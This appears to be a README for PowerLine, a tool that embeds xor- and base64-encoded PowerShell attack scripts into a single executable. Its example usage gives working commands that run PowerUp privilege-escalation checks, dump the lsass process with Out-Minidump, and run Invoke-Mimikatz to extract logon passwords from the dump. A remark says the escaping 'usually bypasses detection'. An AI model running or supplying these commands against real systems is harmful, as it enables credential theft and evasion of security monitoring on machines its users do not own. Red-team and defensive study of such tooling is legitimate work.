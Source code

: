 # PowerLine

Download the Repo

Run the build.bat file

Update the UserConf.xml document to contain the URLs of the scripts that you'd like to include (examples shown)

Run the PLBuilder.exe file

The PowerLine.exe program should now be created and contains embedded, xor-encoded, base64-encoded versions of all of the scripts that you specified

Example Usage:

//Shows scripts that are currently embedded in the program
PowerLine.exe -ShowScripts

//Run Invoke-AllChecks from the PowerUp script
PowerLine.exe PowerUp "Invoke-AllChecks"

//Get a dump of the lsass process. Must run as an admin
PowerLine.exe Out-Minidump "Get-Process lsass | Out-Minidump"

//Run mimikatz against the dump file created by the Out-Minidump command to extract creds. lsass_dump_name.dmp will be the name generated by Out-Minidump
//Yes, it's hellacious escaping but it works and usually bypasses detection =)
PowerLine.exe Invoke-Mimikatz "Invoke-Mimikatz -Command \"`\"sekurlsa::minidump lsass_dump_name.dmp`\" `\"sekurlsa::logonPasswords`\"\""
